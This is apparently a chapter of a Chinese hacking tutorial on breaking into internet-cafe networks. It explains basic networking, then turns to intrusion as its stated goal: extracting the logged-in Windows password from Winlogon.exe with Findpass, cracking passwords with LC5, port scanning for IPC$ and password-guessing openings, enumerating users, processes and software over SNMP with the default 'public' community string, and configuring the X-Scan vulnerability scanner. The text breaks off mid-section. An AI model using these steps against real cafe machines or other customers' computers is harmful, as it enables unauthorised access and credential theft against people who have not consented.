本节将有针对性地讲解网络技术的相关知识，为后面的实际入侵打好理论基础。最重要的就是要你了解自己以及将要入侵的目标处在网络中的什么位置，它具有什么样的特性等等，理解了这些东西，也许积存在你心中已久的谜团就会迎刃而解了。我说过网络知识都是相关联的，所以这部分东西最好反复多看几次，因为可能在讲解前面的知识时涉及到后面的东西。理解了后面的东西再来弥补前面不懂的知识，你就会醍醐灌顶了，呵呵！再多看几次，也许你会有新的认识和发现，或者自己的见解，这些都是非常珍贵的精神财富。好了，让我们赶快进入网络基础知识的学习吧！

### 1.1、网络技术术语

术语这个东西之所以能存在，我想是为了达到一种统一吧，虽然一般术语的描述比较专业相对晦涩，但如果你理解了它们，再回过头去看就不会觉得它难以理解了。在最初学习网络的时候是为了理解，我们的描述可以通俗些，而理解后却能用专业的眼光看待，这就是我希望大家在本节能做到的。废话不多说了，Come on!

### 1.1.1、节点

节点类似于“终端”，终端这个词你可以从字面意思理解，就是中止了的一端，它不是互相连接的两个实体的中间部分，也就是说它只连接了一端。节点不一定是一台计算机，它也可以是一台打印机，也可以是其它网络设备，像网吧的客户机就是一个节点。我这里解释的节点只是狭义上的概念，广义上它还可以是一个网络。

### 1.1.2、工作站

所谓工作站其实就是处在一个网络中和其它大部分计算机一样普通的计算机，它一般不提供服务给网络上的其它计算机，它的任务就是享用其它计算机的服务。在网吧中，工作站就是我们直接操作的那些计算机，我们也经常把它们叫做客户机。

### 1.1.3、服务器

顾名思义，就是提供服务的一种机器，它可以是一台计算机，也可以是其它设备，我们接触的比较多的要算前者了。服务器的性能一般要比网络中的其它计算机都要强，因为它要提供服务，网络上的其它计算机要共享它的服务，因此它承受的负荷更多一些，也就要求它的硬件和软件设备都得跟得上。

网吧中的服务器就是网管或者技术员直接操作的那些计算机，一个像样的网吧中，一般有网吧管理服务器、数据库服务器、游戏服务器、电影服务器，除了这些还可能有网站服务器。一台服务器有时不一定就是一台计算机这样的一个整体，服务器是可以用软件实现的，所以有可能存在一台计算机上安装两个或两个以上的服务器软件的可能，比如管理服务器和数据库服务器在很多时候都是在同一台计算机上，这很大程度上取决于网吧管理软件。

### 1.1.4、局域网和广域网

首先我们知道它们都是网络，从名称上我们也可以猜到它们的区别在于地域范围。确切如此，局域网和广域网的最大不同点就是跨越的地理范围不同。局域网的英文缩写为 LAN（Local Area Network），它是将位于相对有限区域（例如，一幢建筑物）内的一组计算机、打印机和其它设备连接起来的通信网络，一般情况下一个局域网中的所有计算机都是很容易亲眼见到的；而广域网（WAN，Wide Area Network）的地域范围则是跨城市甚至是跨国家和洲的（比如一个跨国公司的计算机网络），广域网连接了大量的计算机，并且其中包含了很多的局域网；实际上还有一种介于局域网和广域网之间的网络，它叫做城域网（MAN，Metropolitan Area Network），它是地理位置规模在一个城市之内的网络，这个我们接触得比较少，因此就不多说了。

这时候你对网吧应该有一个认识了吧！是的，网吧网络就要算局域网了，不过就算局域网还有多种标准，我们最常接触也是最通用的要数以太网了。

以太网（EtherNet）是当今现有局域网采用的最通用的通信协议标准，该标准定义了在 LAN 中采用的电缆类型和信号处理方法。以太网在互联设备之间以 10-100Mbps 的速率传送信息包，双绞线电缆（就是我们最常见到的网线）以太网由于其低成本、高可靠性以及 10Mbps 的速率而成为应用最为广泛的以太网技术。以太网除了支持双绞线电缆外，它还支持同轴电缆、光纤等传输设备，并且以太网支持星形和总线型两种拓扑结构。这里有些概念不明白没有关系，到后面我们就会讲到了，到时候再返回来看就会理解了。网吧中的 LAN 一般都是以太网，我们在看一些网络配置时常看到“Ethernet”，这就是以太网了。

我们经常看到内网和外网之说，这只是大家为了方便通俗的说法。一般内网指的是你当前所处的局域网，而相对于这个局域网的外面的所有网络都算外网，一般我们把外网就理解为 WAN。很多朋友不明白自己处在网络上的什么位置，而要攻击的目标又处在什么位置，很多时候这和内网与外网有关。我们在网吧上网是处在局域网中，虽然所有的客户机都有唯一的一个 IP 地址，但这个 IP 地址的唯一性仅限于当前自己的局域网中，在外部的很多局域网中存在着与你的 IP 相同的 IP，不过因为你们不在同一个网段中所以不会冲突。但是网吧中的所有客户机都使用的是同一个公网 IP，这个 IP 就是我们将要讲到的网关的 IP。局域网中的所有工作站共享网关的公网 IP 连接外网，这是当今网吧最流行的网络布局方式。假如你要攻击的目标是外网中的一台主机，由于它拥有公网 IP 地址，因此它对你是可见的，也就是说你可以通过 IP 地址找到它。但是你处在内网中，这时候你的身份是用内网 IP 标示的。前面我们说过一般内网 IP 是允许重复的，你存在于内网中，因此处在公网中的计算机无法找到你（或者说明确定位你的位置），除非采用一些特殊手段。这些东西有助于理解后面我们将会讲到的正向连接和反向连接，也可以解释你对于一些网络连接和攻击的失败原因。

### 1.1.5、网关

网关（Gateway）是局域网中最重要的组成部分之一，顾名思义它就是一个网络连接到另一个网络的“关口”，网络中的其它计算机要想访问外部网络必须通过网关。网关也可以被看作一台服务器，它的主要作用是翻译，因为在广袤的 WAN 上，每个网络间存在着无数的差异。要想在不同网络间通信，首先得用网关把自己或者外部不能“理解”的部分，翻译为要通信的对方或者自己能理解的数据，然后就可以相互“交流”了，网关就像两个语言不同的国家的翻译官一样。比如一台客户机发送一封电子邮件，在这封邮件到达邮件服务器之前，就得先通过网关处理。网关不一定是一台计算机，它还有可能是一台网络设备，比如路由器。比较小型的网吧一般用计算机作为网关，而稍微有些财力的网吧则使用路由器作为网关。通常我们在网吧玩，出现掉线的情况，一般就是网关出了问题，这时候我们都是不能访问外网的，但是局域网游戏还是可以玩的，这下大家明白为什么了吧！

### 1.1.6、通信和会话

标题的这两个概念实际和现实生活中的没有太大差异，不过有的朋友还是不太理解。通信，我们就可以简单地理解为互通信件，现实生活中写信交流感情比较多，不过在网络上通信一般都是有实用目的的。网络上的通信就是一方发送信息给另一方，然后另一方回复消息给发送方，周而复始循环下去直到结束。和通信不同的是，会话是保持了一个连续状态的“通话”，会话虽然可以多个人参与，但是人数一般是固定的。在现实生活中就像开会一样，而在网络中也有一个类似于会议室的场所为会话服务，这个场所我们一般称为通道。比如我和一台远程计算机建立了 IPC 连接，这时候我们就建立了一个会话，这个会话在 IPC 管道中进行，信息和数据也在这里进行传送。一般会话都是有一些东西保护的，以防止外界的干扰。理解会话的两个关键字是“连续”和“封闭”。

在网吧中用 QQ 和别人聊天就属于网络通信，而在局域网中玩联机游戏，比如 CS 就是在建立了会话的基础上进行的。

### 1.1.7、端口

端口（Port）这个概念相信已经很常见了，但还有很多朋友不是很理解。在计算机领域，端口可以分为两部分：硬件领域和软件领域。在硬件领域（也称在物理意义上），端口就是类似 USB 口、串口、并口等我们可以看到的实在的外部设备接口，而我们常接触到的端口则是从软件角度看待的。端口就是计算机与外部通信的一个出口，计算机中的端口不只一个，不同的应用程序使用不同的端口和外部程序通信，这样可以避免数据阻塞等问题，不过也存在一个应用程序使用多个端口和一个端口被多个应用程序使用的可能。端口从 0 开始到 65535，它们有如下分类：

- a、周知端口（Well Known ports）：从 0 到 1023，它们被绑定于一些特定的服务。比如 21 端口的 FTP 服务，23 端口的 Telnet 服务等。一般通过周知端口的通信也表明了使用的协议，比如常见的 80 端口提供 WEB 服务，它使用的协议为 HTTP。
- b、注册端口（Registered ports）：从 1024 到 49151，它们松散地绑定于一些服务。也就是说有许多服务绑定于这些端口，但这些端口也用于许多其它目的。例如：许多系统处理动态端口从 1024 左右开始。
- c、动态和/或私有端口（Dynamic and/or private ports）：从 49152 到 65535。理论上，不应为服务分配这些端口。实际上，机器通常从 1024 起分配动态端口。但也有例外：SUN 的 RPC 端口从 32768 开始。

以上这些东西大部分来自互联网，笔者做了一些修改。端口是一个很重要的概念，很多地方都要涉及到，大家一定要掌握了。

### 1.1.8、网络协议

首先我们来看现实生活中的协议，它一般是一个书面形式的合同，签订协议的双方为了某件事情（比如工作或者合作）达成了某种共识，然后将这些共识写于纸上，当签订协议的双方签字同意了后就表明双方都将遵守这个协议。一个协议的签订将使一件事情得以完成。比如我手里有一块糖，小明手里有一块钱，我想要钱他想要糖，所以我们两个商量并同意互相交换各得其爱。这时候无形中我们就遵守了一个协议，然后这件事情就做成了。网络协议亦如此，前面已经说过各个网络或者通信双方由于软件和硬件以及需求等因素，存在着千差万别，但如果要通信就必须经过翻译的过程，但是一方不可能将所有与通信对象的信息都翻译，这个工作就像一个无底洞一样永无止境。于是人们设计出一个东西，有网络通信需求的计算机或者网络设备都必须遵守它，否则将无法通信，这个东西就是网络协议，我们这里讨论网络就把它简称为协议。

协议是网间通信的实体都遵循的一个规则，比如网络上的计算机以及其它互联设备。其实协议也有点翻译的感觉，不过是所有人说一种语言罢了。我们最常接触到的，也是应用最广泛、最重要的协议就是 TCP/IP 协议了，它包括 TCP 和 IP 两部分。TCP/IP（Transmission Control Protocol/Internet Protocol）是传输控制协议与网际协议的英文缩写，其中 TCP 保证网络传输可以无误和安全地进行，IP 协议保证数据包可以正确地发送到指定目的地址。协议 IP 根据一个地址发送数据，这个地址就是 IP 地址了，在网络上最常用的主机表示方式就是使用 IP 地址，但注意协议 IP 和 IP 地址是两个不同的概念。其实 TCP/IP 是一个协议族，其下有很多的子协议，比如 FTP、SMTP 等，很多在我们的日常网络生活中都会用到，因此要学习网络，TCP/IP 是不可不学的。

通常我们在扫描对方的端口时，端口前面会有协议名称，表示当前的通信端口使用的协议，最常见的除了 TCP 外就是 UDP 了。UDP 是“User Datagram Protocol”的英文首字母缩写，即用户数据报协议。UDP 也经常被用作网络通信，比如 QQ 就是用 UDP 端口进行通信的。UDP 和 TCP 的不同点在于前者不保证传输的安全性，只要将信息传送到目的地就算完成任务了，因此 UDP 协议是没有 TCP 协议安全的，不过正是因为这点，它的传输速度要比 TCP 高，因此 UDP 常被用在某些不太重要的信息传送上。

在局域网中，TCP/IP 协议同样经常用到，不过还有两个协议在局域网中也经常用到，它们是：NETBEUI 和 SPX/IPX。NETBEUI 是一种高速小型的局域网协议，它的配置和使用都非常简单，并且占用资源也小。但是由于其不支持跨网段的功能，因此对于小型网吧来说还是比较适合的；而 SPX/IPX 协议则具有跨网段的功能，它具有路由功能，虽然它没有前者的高速，但是在某些方面的使用还是很频繁的，比如局域网中的很多联机游戏都支持 SPX/IPX 协议，像星际争霸等，还有像万象网吧管理之类的应用程序也使用的是 SPX/IPX。这个协议最初是 Novell 开发的专用于 NetWare 网络中的协议，但是现在可以被移植到 Windows 操作系统中使用。在局域网中虽然使用了 TCP/IP 协议也能完成一些任务，但是相对起来还是没有 SPX/IPX 简便。

总结一下在局域网中 TCP/IP、SPX/IPX 和 NETBEUI 各自的主要用途：

- TCP/IP：通过局域网访问 Internet
- SPX/IPX：进行联机游戏或者其它可以实现的网络任务
- NETBEUI：主要用于文件与设备共享

对本书比较重要的是 TCP/IP 以及 NETBEUI 协议，关于它们的更多内容在后面会涉及到。

### 1.2、网络硬件设备

前面我们接触了网络技术的一些术语以及概念，它们相对来说还是太“虚拟”、太抽象了，是不太好理解。下面我们就来接触一些实实在在的东西，它们就是一个网络中必不可少的网络硬件设备。相对于软件来说，硬件本身有它的物理实体，接受起来应该更容易些吧！也许在学习了下面这些东西后，前面一些疑惑就可以烟消云散了。

### 1.2.1、网络适配器

网络适配器就是我们俗称的网卡，也叫做网络接口卡（NIC；Network Interface Card），它是我们最常接触到的网络设备之一，它也是一台计算机联网的必备因素，没有网卡就无法上网。网卡的样子有点类似于我们小时候玩的 FC（俗称红白机，我们那叫小型）的游戏卡，如图 1-2-1。

网卡插在计算机主板插槽中，在外部我们是看不到的。网卡主要负责将用户要传递的数据转换为网络上其它设备能够识别的格式，通过网络介质传输。


### 1.2.2、网络传输介质

网络传输介质使用的是电缆，常见的电缆有双绞线、同轴电缆和光缆，而在网吧中最常用的就要数双绞线了。双绞线（TP；Twisted Pair wire）就是我们通常俗称的网线，它是最常见的网络传输介质，在局域网中的使用最为普遍，如图 1-2-2。

双绞线就像它的名字一样是由两根具有绝缘保护层的铜导线组成，把两根绝缘的铜导线按一定密度互相绞在一起可降低信号干扰的程度，每一根导线在传输中辐射的电波会被另一根线上发出的电波抵消。并且双绞线相对也比较廉价，因此在局域网中使用非常频繁。而双绞线与网卡相连需要一个叫做水晶头的东西，网卡可以提供与不同电缆的不同接口，在网吧中最常用的就要算 RJ-45 接口。


它是配合双绞线使用的，因此水晶头也叫 RJ-45 接头，如图 1-2-3。

当然，RJ-45 接头不光连接网卡，它还要连接另一端，比如集线器或者交换机。除了双绞线外，网吧有时候还会使用光纤，这是一种高速网络传输介质，而相应的自然价格不菲。网吧配备光纤为的是提高网络访问速度，配合光纤也要网吧配备相应的光信号收发以及转换设备。

### 1.2.3、集线器和交换机

它们同样是局域网中最常用的设备，它们处于网络的同一个位置（或者说层面），它们扮演同一个角色。一般网络中的计算机可不只是一台两台，要进行网络通信，但是一台计算机上的网络接口是有限的，要想与未知数量的计算机或者设备实现通信，就必须有多个接口，集线器（HUB）和交换机（SWITCH）由此而生。它们提供了多个接口，连接在这些接口的所有计算机都可以彼此通信，这样的话就不必要求需要通信的计算机的网络接口数量了。


但是集线器和交换机有本质性的区别，是在它们的实现原理上。集线器的工作原理可以概括为广播，当它接收到一个数据包后，就将这个数据包发送到连接到自己的所有计算机，然后由计算机去辨别这个包是否是自己的。是自己的则接收，不是则丢弃这个数据包，这个过程我们就叫它广播了。

而交换机则是要比集线器“智能”得多，它可以判断包的目的地址。在交换机的每个端口上都对应了一台计算机，比如端口 1 对应计算机 1，端口 2 对应计算机 2 等，这个对应关系作为一个列表保存在交换机中。当交换机接收到一个数据包后，它会分析数据包中发送方指定的目的地址，然后把这个包直接发送给目标主机，其他主机则不会接收到这个数据包了。

从上面对集线器和交换机的描述中我们可以看出，后者要比前者的工作效率高得多，的确如此，并且使用集线器很容易引起网络通信的阻塞。

使用集线器的网吧几乎已经不存在了，集线器好像在某些比较小型的、对网络连接质量要求不太高的地方还有使用，毕竟现在它很廉价。交换机作为胜利者，自身功能在不断增强外，也在被逐渐扩展。交换机的外形如图 1-2-4，其实集线器跟它长得也差不多。

交换机的接口数量也不是一定的，随着时间的推移，相信其接口数也在逐渐增多，市面上常见的交换机品牌有 TP-LINK、D-Link、3Com 等。

这里我们还要聊聊一个叫做交换网络的概念，其实它就是建立在以交换机为基础的交换构架上的局域网。和交换网相对，我们可以把用集线器构架的网络叫作广播网。

### 1.2.4、网桥

网桥（Bridge）也是网络连接中的必要因素之一，但是在网吧中并不常见到。我们假设这样一种情况：网吧一共有 100 台客户机，但是一个交换机只有 20 个接口，那如何将其他计算机安排在局域网内呢？这时候就要用到多台交换机和网桥了。网桥的功能就是用来连接局域网的，它有些类似于交换机。上面例子中的网络要想组建，首先将所有的客户机都连接到交换机上，然后把所有的交换机再连接到一个网桥上，这样所有客户机就可以被安排在一个局域网中了。

之所以前面说在网吧中用得少，是由于网桥正在被扩展了功能的交换机和路由器替代，现在很多交换机都可以实现网桥的功能，而现在桥式路由器的应用也十分广泛。常见网桥的外形如图 1-2-5。


### 1.2.5、路由器

路由器（Router）是网络中最为重要的网络设备之一，它的功能就是将数据包从一个地方路由到另一个地方，而“路由”这个词中则包含了选择最佳路径的意思。路由器的外形如图 1-2-6，是否和交换机很像呢？

正如前面所描述的，路由器的一个作用是选择信息传送的线路。选择通畅快捷的近路，能大大提高通信速度，减轻网络系统通信负荷，节约网络系统资源，提高网络系统的响应率，从而让网络系统发挥出更大的效益来。而它的另一个作用则是连通不同的网络，路由器翻译来自不同网络的数据，以使这些网络能够相互读懂对方的信息。除了上面的这两个功能外，路由器还可以处理数据，包括分组过滤、分组转发、加密等。

它还能进行网络管理，这种管理指配置网络、控制流量和性能等。除了这些，路由器的功能还在逐渐增多。路由器常被用来连接 WAN 和局域网，网吧常用它来作为整个局域网的网关。相对于使用主机作为网关来说，路由器显得更专业，可以处理的网络流量更大。

### 1.2.6、调制解调器

调制解调器就是我们俗称的猫（Modem），就像它的名字一样，猫的作用是调制和解调，即转换信号为计算机或者通信线路可以识别的信号，因为在线路上传输的信号是模拟信号，而计算机使用的是数字信号。要想使它们能互相辨认对方传送的信息，必须使用调制解调器转换。调制解调器在比较小型的网吧中还是可以看到的，而在专业的大型网吧中一般用一个路由器就可以替代猫了。常见调制解调器的外形如图 1-2-7。


## 1.3、网络拓扑与网吧布局

### 1.3.1、星型拓扑结构

在了解网吧的布局之前，我们先要了解一些网络拓扑结构方面的知识。网络拓扑是脱离了网络的物理连接而讨论网络的连接形式，网络中的各个节点连接起来的方式叫做网络拓扑。所有的拓扑结构都可以归为总线型、星型、环型、网型，而网吧最为常用的拓扑结构为星型结构。

星型结构是指各工作站以星型方式连接成网。网络有中央节点，这个中央节点通常是交换机。其他节点（也就是客户机等）都与中央节点直接相连，这种结构以中央节点为中心，因此又称为集中式网络。星型网络管理简单，因为它将所有的工作站都集合到了一个设备上，同时一条电缆的损坏不会影响其他计算机的网络传输，这是它的一个很大的优点。星型拓扑结构示意图如图 1-3-1。


现在的网吧大都建立在星型的拓扑结构上，它也是我们主要讨论的对象。其实还有一种类型的网吧，它们以数字数据网（DDN，Digital Data Network）为基础构架，这类网吧没有主机和分机之分，所有在网吧内的电脑是共享一条或多条专线，但每台电脑都有一个静态的 IP，而且是直接连接上 Internet 上的，貌似我们学校的四楼机房用的就是 DDN 专线。不过 DDN 由于各种原因并没有被网吧广泛采用，接下来我们就来看看构架在星型拓扑结构上的网吧布局。

### 1.3.2、网吧布局

这里将网吧分为小型和大中型两种来讨论，让我们来对比一下这两种规模不同的网吧有什么区别。

#### a. 小型网吧

小型网吧的客户机数量一般在 30 台左右，因此使用的交换机数量在一到两台。由于网吧的财力不是很强，因此无力购买专业的路由器作为网关，于是使用一台具有网关功能的服务器作为网关，然后通过调制解调器连接到外网。这台网关服务器的操作系统一般是 Windows 2000 Server 或者是 Win2003 的服务器版，有很多这类的网吧不仅将一台计算机作为网关使用，并且还在这台主机上安装其他应用程序作为其他的服务器，最常见的就是安装网吧管理软件的服务端程序了。而如果安装的是类似于 Pubwin 的控制端与数据库结合在一起的网管软件，那这台网关主机相当于三台服务器了！这样的主机如果配置不是很好的话，工作效率可想而知。

有很多小型网吧的业主自己不懂技术，也无力聘请技术员，于是就照平常的那样将游戏、电影等放置于每个客户机的本地硬盘中，稍微有些技术的网吧则会另外架设游戏服务器和电影服务器等提供服务。有的是直接共享某个目录甚至是根目录，而有的则是使用专业的游戏、电影更新程序，总之是技术水平参差不齐。同样因为财力的原因，小型网吧的电影和游戏服务器一般和其他客户机一样通过网关主机连接到外网。小型网吧的布局结构如图 1-3-2。


#### b. 大中型网吧

对大中型网吧的定义，客户机的规模至少要上百了吧！这类网吧的老板也许不懂技术，但一定是有钱的了。他们在做大网吧规模的同时购买专业的网络设备构架整个网吧。除了购置较好的交换机外，他们还使用专业的路由器作为网吧的网关，并且在连接外网的地方加入了光纤，这些都大大提高了网络访问速度。在服务器方面，除了电影和游戏服务器，大中型网吧还可能部署音乐、WEB 服务器。在服务器的操作系统方面，不仅限于 Windows 了，而采用安全性更高的 Linux/Unix 作为服务器的操作系统。在网吧管理软件方面，则会使用比较专业的、安全性较高的类似于 Pubwin EP 的企业级管理软件。大中型网吧的服务器分布极为独立，基本是一台主机只提供一种服务，这的确大大提高了各服务器的安全性。并且由于电影以及游戏服务器需要时常更新，因此它们通常都有自己独立的连接到外网的途径，这样在它们更新的时候就不会占用网吧客户机的带宽了。

由于大中型网吧的客户机较多，因此需要多个交换机来连接起这所有的工作站来。通常情况下使用 6 个左右的交换机将所有的客户机组织起来以后，这些交换机被布置在一个长方形的交换机柜中。这 6 个交换机再连接到一个中心交换机上（或者路由器上），当然这个交换机（或者路由器）是具有网桥功能的，这里就定性为中心交换机吧！这个交换机再连接到一台作为网关的专业路由器，然后通过光纤连接到外网。大中型网吧的一般布局如图 1-3-3。


## 2、信息搜集

上一节中我们已经了解了一些网络技术的相关知识，这些知识在我们将要进行的入侵中基本就够用了，下面我们就要着手入侵活动了。不过入侵前一定要对目标先进行系统的信息搜集与分析，以制定可行的入侵方案。信息搜集是每个黑客的必备技能，在网络入侵中更是不可缺少的步骤。人说不打无准备的仗，在网络上亦是如此。尽量多地获得目标主机的信息不仅可以增加入侵对方的途径，也可以在某些方面保护入侵者的安全。首先让我们从本地信息搜集开始，逐渐向目标主机靠拢吧！

### 2.1、本地信息搜集

由于做母盘或者网络克隆等原因，一般情况下网吧客户机的操作系统以及内部的软件环境都是一样的，即使不一样，差异也不会很大，因此通过本地信息搜集，可以间接获得目标的某些信息，不过这时候目标主机就仅限于和你处在同一位置的客户机了。在第四章中的命令行本地利用中，我们已经使用命令行工具获取了本地计算机的很多信息，不过 GUI 界面下也有一个可以获得信息的工具，它的名字就是——系统信息（Msinfo32），前面我们也有对它进行过介绍，下面让我们来了解它的更多内容。

#### 2.1.1、系统信息

在“运行”中输入 **msinfo32**，确认后就可以打开系统信息了，首先出现的是“系统摘要”，如图 2-1-1。“系统摘要”显示的系统信息和 Systeminfo 命令显示的信息很类似，不过它还是没有后者详细。“系统摘要”下面依次是“硬件资源”“组件”“软件环境”和“Internet 设置”，对我们比较重要的就只有“软件环境”了。双击打开“软件环境”的目录树，出现了很多子选项，如图 2-1-2。其中“系统驱动程序”可以查看系统中所有驱动程序的详细信息、名称、描述、类型、启动模式和状态等，而“签署的驱动程序”则显示了安装在系统上的签署的驱动程序的相关信息，包括其名称、描述、类型、状态以及状况。双击“环境变量”就可以查看系统中所有的环境变量了，如图 2-1-3。


变量和变量的值我就不说了，第三列中的用户名如果是“SYSTEM”则代表这个环境变量是系统变量，而如果用户名是“计算机名/当前登录用户名”则表示这个变量是用户的临时变量。接着双击“网络连接”，这里可以看到所有的网络连接，如图 2-1-4。


这里可以显示与本机进行连接的远程主机的 IP 地址以及服务类型，还有就是本机的登录用户名。可是不知道为什么这里不能显示 80 端口的 WEB 连接，所以这个还是没有 Netstat -an 命令好用。双击“正在执行的任务”就可以显示当前进程的详细信息，要比任务管理器显示得详细多了，如图 2-1-5。


最重要的是这里列出了进程的可执行文件路径和进程的开始时间，这些对查找病毒等都是非常有帮助的。而下面“加载的模块”则显示了当前进程加载的所有 DLL 文件的详细信息，包括文件创建时间、大小、版本等。

双击“服务”我们可以查看系统中所有服务的详细信息：名称以及显示名称、状态、启动状态、服务类型、可执行文件路径等，非常详细。从这里我们就可以基本判断出目标客户机是否开启了某个服务，进而判断是否可以利用某个服务存在的漏洞入侵，如图 2-1-6。


双击“程序组”可以查看系统中安装的所有程序的名称等信息。安装的程序在网吧的客户机中基本也都是相同的，因而从这里我们可以初步判断是否可以利用某个应用程序的漏洞进行入侵，比如缓冲区溢出漏洞，所以这个信息也很重要。双击“启动程序”可以查看系统启动时需要加载的自启动程序都有哪些。至于最后两个子类，对我们用处不大，因此不再继续了。

总的来说，“系统信息”的描述还是比较全面的，但它相对其他查看信息的方式来说有个弱点，就是不能即时更新，用户必须通过手动刷新才能了解到系统的最新信息，比如查看进程信息它就没有任务管理器即时。不过尺有所短，寸有所长，对网吧入侵而言，一些类似进程类的动态信息对我们的用处还是不大的，主要是那些固定不变的东西是我们的攻击对象。结合前面学过的命令行下的那些查看信息的工具，加上这里的“系统信息”，相信你可以获得足够的本地信息了。

#### 2.1.2、本地主机系统密码的获取

我们在网吧上机的时候，从来没有输入过系统的用户名以及密码。不要以为这说明系统只有一个活动用户，并且这个用户的密码为空，而是管理员设置了某个用户自动登录，即使是这个用户加了密码。不过网吧客户机的系统密码一般都是一致或者是有规律的，比如 1 号客户机，它的系统密码的最后一位可能是 1 或 01 等，2 号客户机的最后一位密码可能是 2 或 02……这样的话，就是说我们几乎可以知道网吧中所有客户机的密码了。

有的网吧的客户机操作系统为 Windows 2000，这时候如果一个客户知道了另一个客户的系统密码的话，那它就很有可能利用 IPC$ 等手段入侵对方，要知道这是很容易的。我们这里把环境设置为最简单的那种，OS 类型为 Windows 2000 Professional，并且客户机开了默认共享，因此我们只要获得了本地的系统密码就可能很轻易地进入任何一台客户机。

对于 Windows 2000 来说，获得本地密码的最简易工具莫过于 Findpass，它可以从 Winlogon.exe 进程中获得当前登录用户的密码。首先我们要获得的是 Winlogon.exe 的 PID 以及当前登录用户的域以及用户名，使用工具 Publist，如图 2-1-7。获得了 Winlogon.exe 的进程 PID 为 672，当前登录用户名为 fornever，域为 44B363A27B9A475，下面开始破解密码，Findpass 的命令格式为 `findpass DomainName UserName PID-of-WinLogon`，如图 2-1-8 是我用它破解本地系统密码的示例。


由于我当前的 OS 为 WinXP，所以没有获得系统密码；如果是 Win2000 的话马上就获得了密码，然后就可以……这不比复杂的扫描入侵简单得多吗？当然这种情况只适合于 Win2000 操作系统。对于 WinXP 来说，虽然一般情况下得到系统密码没有多大用处，不过我还是来讲讲 XP 下用户密码的获取。这时候仅仅凭借 Findpass 是无法做到的，我们需要使用 Windows 平台最强悍的密码恢复工具 LC5 的帮助。打开 LC5，一个向导帮你完成设置，一路“Next”就可以了，然后它会自动将系统中的所有用户列出来并进行最初的密码破解，如果密码简单的话，很快它就会显示在 LC5 的工作区中，如图 2-1-9。


有时候密码破解就是这么简单，并不是入侵变得肆意，而是网络安全防御太脆弱了。如果系统密码比较强壮的话，你可以选择使用字典等方式破解，LC5 的教程就不做了，大家自己去摸索吧！

### 2.2、目标踩点

本地信息已经搜集完了，相对于远程获取对方信息来说这种方式要安全很多，不过有很多重要的信息是无法探测的，因此我们必须远程探测对方的更多信息以制定入侵方案。一般情况下首先要做的就是端口扫描。

#### 2.2.1、端口扫描

扫描目标主机端口的目的在于通过对方开启的端口猜测对方开启了哪些服务，因为很多 Windows 的服务都存在不同程度的安全隐患。对于很多朋友来说，端口扫描算是接触最早的扫描方式了吧，SuperScan 是很多朋友的首选，不过我仍然钟爱 BluesPortScan 这个小巧快速的端口扫描器。虽然它的功能没有 SuperScan 强大，不过简洁实用。如图 2-2-1 是我扫描一台远程主机的结果。扫描了 10000 个端口只用了 72.56 秒，很快吧！BluesPortScan 支持对指定 IP 段和端口段的扫描，在扫描器的右侧我们还可以设置扫描端口的协议，**TCP 或者 UDP**，下面我们还可以设置是否防止洪水和 Ping 检查。下面我们来分析扫描结果，扫描到的端口信息如下：


```
TCP 192.168.56.23 [25-smtp]
TCP 192.168.56.23 [110-pop3]
TCP 192.168.56.23 [135-epmap]
TCP 192.168.56.23 [139-netbios-ssn]
TCP 192.168.56.23 [445-microsoft-ds]
```


其中最前面的是协议类型，然后是远程主机的 IP 地址，中括号里是端口及对应服务信息。前两个端口 25 和 110 与电子邮件有关，135、139 和 445 与默认共享相关。由这些信息可初步判断对方使用了系统默认配置，可能存在通过 IPC$ 远程入侵的机会；对 139 端口可尝试远程密码猜解，对 135 端口可结合 SMB 相关漏洞进一步探测。

#### 2.2.2、利用 SNMP 刺探远程主机信息


除了通过端口刺探远程主机信息外，还可利用某些服务的安全隐患获取目标线索。SNMP（Simple Network Management Protocol，简单网络管理协议）用于管理网络节点，许多网络设备和操作系统支持该协议。SNMP 中有 community strings（类似认证口令），不少系统初始状态下使用默认值。以 Windows 为例，启用 SNMP 后通常会开放 UDP 161 和 162 端口，可据此判断并进一步使用 snmputil.exe 获取远程信息。

| 命令 | 功能 |
|---|---|
| `snmputil walk ip public .1.3.6.1.2.1.25.4.2.1.2` | 列出系统进程 |
| `snmputil walk ip public .1.3.6.1.4.1.77.1.2.25.1.1` | 列系统用户列表 |
| `snmputil get ip public .1.3.6.1.4.1.77.1.4.1.0` | 列出工作组名 |
| `snmputil walk ip public .1.3.6.1.2.1.25.6.3.1.2` | 列出安装的软件 |
| `snmputil walk ip public .1.3.6.1.2.1.1` | 列出系统信息 |

例如列出 192.168.56.23 的进程后，可关注 `Value` 字段后的字符串。为便于阅读，可使用过滤命令：`snmputil walk ip public .1.3.6.1.2.1.25.4.2.1.2 | find "Value"`，仅显示包含“Value”的行。除进程外，SNMP 还可用于列出已安装软件等信息。


前面给出的命令，我们来查看远程主机上都安装了哪些程序，这里仍然使用了 Find 过滤无用的行内容，如图2-2-5。

仍然是 String 后面的值，就是远程主机安装的程序名称。我们看到它安装有“Serv-U 6.2”、“PubwinClient”和“Adobe Reader 6.0”等程序。但是图中有一些程序的名称由于是中文的原因而无法显示，这是一个遗憾。通过 SNMP 的这个功能，我们可以获取远程主机的软件安装信息，从而判断对方是否安装了某些存在漏洞的程序，比如杀伤力最大的缓冲区溢出漏洞。

最后的 OID 的值具体含义我也无法理解，应该是一个 OID 对应了一个功能，大家只要记住这些值就可以了。另外还有一个利用 SNMP 的弱口令刺探远程主机信息的工具：IP Network Browser，它的功能十分强大，并且是图形界面的。这里对它就不再介绍了，它的使用大家看动画就可以了。


图2-2-5 发现可能存在的程序信息

## 2.2.3、漏洞与综合扫描

在使用了以上手段均没有得到有价值的信息的情况下，我们就需要对目标进行漏洞扫描以及全面的“安全检查”了，这可以使我们获得更加有价值和更多的信息。入侵也是条条大路通罗马的，也许一台主机我们可以用很多种方法进入，不过也有可能使用一种手段却采用了 N 种方法。明确了目的，我们就要将目标主机占为己有！尽量多地获得远程主机的信息只能是有益的。


图2-2-6 扫描参数中的检测范围

### a、X-Scan 扫描参数配置

漏洞以及综合扫描器不在少数，国内非常有名的流光、X-Way 等，国外的像 Nessus、SSS 都是功能强大的综合扫描工具。不过对于新手来说，配置较简单、比较容易上手而且功能强大的非 X-Scan 莫属了。它是网络安全焦点的前辈 glacier 开发的免费安全漏洞检测工具，在国内享有盛名，目前最新版本为 X-Scan v3.3，它是一款 GUI 界面的工具。打开它首先出现的是“普通信息”选项卡，这里是对 X-Scan 的一些介绍，包括功能、用法和版本历史等。在扫描前我们要先配置扫描参数，以使我们更准确和快速地获得远程主机的安全漏洞信息。点击“设置”菜单并选择“扫描参数”，出现了“扫描参数”的对话框，如图2-2-6。

